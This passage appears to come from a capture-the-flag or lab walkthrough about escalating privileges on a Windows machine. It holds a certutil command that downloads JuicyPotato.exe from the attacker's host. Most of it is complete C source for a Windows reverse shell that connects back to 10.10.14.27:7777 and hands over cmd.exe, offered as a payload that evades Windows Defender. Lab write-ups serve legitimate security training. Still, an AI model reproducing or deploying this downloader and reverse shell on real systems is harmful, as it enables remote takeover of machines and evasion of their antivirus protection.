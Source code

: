 After running the above command on Kali, the following download will work:

```bash
certutil.exe -urlcache -split -f http://10.10.14.27/JuicyPotato.exe c:\users\destitute\JuicyPotato.exe
```

Now compile a new reverse shell payload that the exploit will call that also bypasses Windows Defender AV. Use the following C reverse shell:

```c
/* Win32 TCP reverse cmd.exe shell
 * References:
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock/ns-winsock-sockaddr_in
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-inet_addr
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-htons
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsaconnect
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread
 * https://docs.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa366877(v=vs.85)
 */
#define WIN32_LEAN_AND_MEAN

#include <windows.h>
#include <winsock2.h>

#pragma comment(lib, "ws2_32.lib")

#define LHOST "10.10.14.27"
#define LPORT 7777

void main(void) {
  SOCKET s;
  WSADATA wsa;
  STARTUPINFO si;
  struct sockaddr_in sa;
  PROCESS_INFORMATION pi;

  WSAStartup(MAKEWORD(2,2), &wsa);
  s = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
  sa.sin_family = AF_INET;
  sa.sin_addr.s_addr = inet_addr(LHOST);
  sa.sin_port = htons(LPORT);
  WSAConnect(s, (struct sockaddr *)&sa, sizeof(sa), NULL, NULL, NULL, NULL);
  SecureZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  si.dwFlags = STARTF_USESTDHANDLES;
  si.hStdInput = (HANDLE)s;
  si.hStdOutput = (HANDLE)s;
  si.hStdError = (HANDLE)s;
  CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
}
```
